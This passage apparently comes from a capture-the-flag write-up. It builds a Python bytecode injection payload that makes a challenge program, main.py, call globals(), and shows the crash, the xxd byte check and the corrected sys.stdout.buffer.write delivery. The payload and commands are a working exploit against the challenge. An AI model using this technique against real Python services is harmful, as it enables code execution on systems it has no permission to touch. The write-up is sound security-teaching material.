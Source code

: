 Since `globals()` has an index of 2 on `co_names`, and takes no arguments, the code we need is:

```
LOAD_GLOBAL 2
CALL_FUNCTION 0
```

Using [`dis.opmap`](https://docs.python.org/3/library/dis.html#dis.opmap) (or just looking at `put_on_stack()`) we see that the bytecode for `LOAD_GLOBAL` is `t`, and the bytecode for `CALL_FUNCTION` is `\x83`, leaving us with a payload of `t\x02\x83\x00`.

Since `smart_input()` returns a `bytes` object, we also output a `bytes` object.

However, when you try to `print` the payload (with 32 characters of padding beforehand) and pipe it into the program, this happens:

```
$ python -c "print(b'QRSRARFGENGRLBHEFRYSLBHJRROERRRRt\x02\x83\x00')" | python main.py

Hello!
What's your name?
zsh: done                              python -c "print(b'QRSRARFGENGRLBHEFRYSLBHJRROERRRRt\x02\x83\x00')" |
zsh: segmentation fault (core dumped)  python main.py
```

To figure out what happened, we pipe the payload into `xxd`:

```
$ python -c "print(b'QRSRARFGENGRLBHEFRYSLBHJRROERRRRt\x02\x83\x00')" | xxd

00000000: 6227 5152 5352 4152 4647 454e 4752 4c42  b'QRSRARFGENGRLB
00000010: 4845 4652 5953 4c42 484a 5252 4f45 5252  HEFRYSLBHJRROERR
00000020: 5252 745c 7830 325c 7838 335c 7830 3027  RRt\x02\x83\x00'
00000030: 0a                                       .
```

The `print()` function [implicitly converts its arguments to strings](https://docs.python.org/3/library/functions.html#print) before outputting them, which means our payload doesn't get output properly, which is mentioned in the documentation. However, [`sys.stdout.buffer.write()`](https://docs.python.org/3/library/sys.html#sys.stdout) is able to output bytes to stdout, so we can use that:

```
$ python -c "import sys;sys.stdout.buffer.write(b'QRSRARFGENGRLBHEFRYSLBHJRROERRRRt\x02\x83\x00')" | xxd

00000000: 5152 5352 4152 4647 454e 4752 4c42 4845  QRSRARFGENGRLBHE
00000010: 4652 5953 4c42 484a 5252 4f45 5252 5252  FRYSLBHJRROERRRR
00000020: 7402 8300                                t...
```
Now that we have our payload being output properly, we can pipe it into the program:

```
$ python -c "import sys;sys.stdout.buffer.write(b'QRSRARFGENGRLBHEFRYSLBHJRROERRRRt\x02\x83\x00')" | python main.py

Hello!
What's your name?
```